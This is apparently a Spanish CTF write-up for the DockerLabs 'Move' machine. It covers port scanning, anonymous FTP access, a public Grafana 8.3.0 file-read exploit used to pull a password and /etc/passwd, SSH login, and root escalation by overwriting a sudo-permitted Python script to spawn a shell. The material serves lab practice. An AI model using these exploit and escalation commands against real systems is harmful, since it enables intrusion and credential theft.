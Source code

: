 # 📘 Informe Técnico - Máquina: *Move*

* **Nivel:** Fácil
* **Propósito:** Práctica de análisis de servicios expuestos, reconocimiento de rutas sensibles y escalada de privilegios.
* **Objetivo:** Obtener acceso root a través de la explotación de una configuración sudo insegura.

---

![Logo](Imágenes/2025-05-15_16-55.png)

## 🛠️ Despliegue de la Máquina

Iniciamos descargando el archivo comprimido desde DockerLabs. Posteriormente lo descomprimimos con el siguiente comando:

```bash
unzip move.zip
```

Luego desplegamos la máquina vulnerable con:

```bash
sudo bash auto_deploy.sh move.tar
```

![Desplegar](Imágenes/Capturas.png)

Verificamos que el contenedor esté activo mediante un ping:

```bash
ping -c1 172.17.0.3
```

![Ping](Imágenes/Capturas_1.png)

---

## 🔎 Reconocimiento

Realizamos un escaneo de puertos completo con `nmap`:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

![Nmap Puertos](Imágenes/Capturas_2.png)

Luego usamos `extractPorts` para filtrar los puertos abiertos y lanzamos un escaneo más detallado:

```bash
nmap -sCV -p80,22,21 172.17.0.3 -oG target.txt
```

![Nmap detallado](Imágenes/Capturas_3.png)

### Resultados Destacados:

* **Puerto 80**: Servicio HTTP (servidor web Apache).
* **Puerto 22**: Servicio SSH activo.
* **Puerto 21**: Servicio FTP con acceso anónimo habilitado.

---

## 🌐 Análisis Web

Accedimos al sitio web [http://172.17.0.3/](http://172.17.0.3/) y se muestra la página por defecto de Apache2.

![Pagina](Imágenes/Capturas_4.png)

Realizamos un escaneo de directorios con `gobuster`:

```bash
gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

![Fuzzing](Imágenes/Capturas_5.png)

Se descubrió el archivo **maintenance.html**, el cual revela una ruta interna:

```
/tmp/pass.txt
```

![Fuzzing](Imágenes/Capturas_6.png)

---

## 📁 Acceso al Servicio FTP

Accedemos al servicio FTP con el usuario `anonymous`. Al pedir contraseña, simplemente presionamos **Enter**.

![Fuzzing](Imágenes/Capturas_7.png)

Ejecutamos `ls -la` y navegamos hasta el directorio `mantenimiento`, donde encontramos un archivo llamado `database.kdbx`. Lo descargamos con:

```bash
get database.kdbx
```

![Fuzzing](Imágenes/Capturas_8.png)

---

## 📡 Detección de Servicios Adicionales

Explorando más puertos, descubrimos que el **puerto 3000** está abierto.

![Open](Imágenes/Capturas_9.png)

Accedemos a **[http://172.17.0.3:3000/login](http://172.17.0.3:3000/login)** y encontramos una instancia de **Grafana**. En la parte inferior izquierda se muestra la versión:

```
Grafana v8.3.0 (914fcedb7)
```

![Registro](Imágenes/Capturas_10.png)

---

## 💥 Explotación de Grafana

Buscamos vulnerabilidades con `searchsploit`:

```bash
searchsploit Grafana 8.3.0
```

Identificamos el exploit:

```
Grafana 8.3.0 - LFI/RCE (Python) → multiple/webapps/50581.py
```

Lo descargamos y ejecutamos:

```bash
searchsploit -m multiple/webapps/50581.py
python3 50581.py -H http://172.17.0.3:3000
```

Usamos el exploit para leer `/tmp/pass.txt`, y obtenemos una contraseña:

```
t9sH76gpQ82UFeZ3GXZS
```

![contraseña](Imágenes/Capturas_11.png)

---

## 👤 Enumeración de Usuarios

Ejecutamos el comando `cat /etc/passwd` desde el exploit y encontramos un posible usuario válido:

```
freddy
```

![Usuarios](Imágenes/Capturas_12.png)

---

## 🔐 Autenticación Válida y Escalada de Privilegios

Probamos las credenciales encontradas (`freddy:t9sH76gpQ82UFeZ3GXZS`) en el servicio FTP y accedemos exitosamente.

Dentro del directorio `/opt` encontramos el archivo `maintenance.py`, el cual descargamos con:

```bash
get maintenance.py
```

El archivo solo contenía:

```python
print("Server under beta testing")
```
Procedo a usar SSH si puedo hacer alguna escalada.

![py](Imágenes/Capturas_13.png)

## 🔐 Explotacion del servicio SSH

Ya conectados como el usuario `freddy`, ejecutamos:

```bash
sudo -l
```

Se nos muestra la siguiente política de sudo:

```
(ALL) NOPASSWD: /usr/bin/python3 /opt/maintenance.py
```

Esto indica que podemos ejecutar **ese script como root sin contraseña**.

---

## 🚀 Escalada Final a Root

Eliminamos el script original y creamos uno malicioso:

```bash
rm /opt/maintenance.py
echo 'import os; os.system("/bin/bash")' > /opt/maintenance.py
chmod +x /opt/maintenance.py
sudo /usr/bin/python3 /opt/maintenance.py
```

Esto nos otorga una **shell con privilegios root**.

![root](Imágenes/Capturas_13.png)

---

## 📝 Nota Final

Es posible que existan otras formas de comprometer esta máquina, pero esta fue la ruta explotada a partir de la información descubierta.





